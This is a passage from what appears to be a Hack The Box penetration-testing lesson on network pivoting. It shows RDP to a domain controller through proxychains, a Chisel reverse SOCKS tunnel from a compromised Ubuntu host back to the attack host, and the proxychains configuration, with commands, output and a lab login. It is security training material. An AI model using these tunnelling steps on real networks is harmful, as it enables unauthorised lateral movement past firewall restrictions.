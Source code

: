 
Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

#### Pivoting to the DC

SOCKS5 Tunneling with Chisel

    matmarqx@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
    

## Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

#### Starting the Chisel Server on our Attack Host

    matmarqx@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
    
    2022/05/30 10:19:16 server: Reverse tunnelling enabled
    2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
    2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
    

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

#### Connecting the Chisel Client to our Attack Host

    ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
    
    2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
    2022/05/30 14:19:29 client: Handshaking...
    2022/05/30 14:19:30 client: Sending config
    2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
    2022/05/30 14:19:30 client: tun: SSH connected
    

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

#### Editing & Confirming proxychains.conf

    matmarqx@htb[/htb]$ tail -f /etc/proxychains.conf 
    
    [ProxyList]
    # add proxy here ...
    # socks4    127.0.0.1 9050
    socks5 127.0.0.1 1080 
    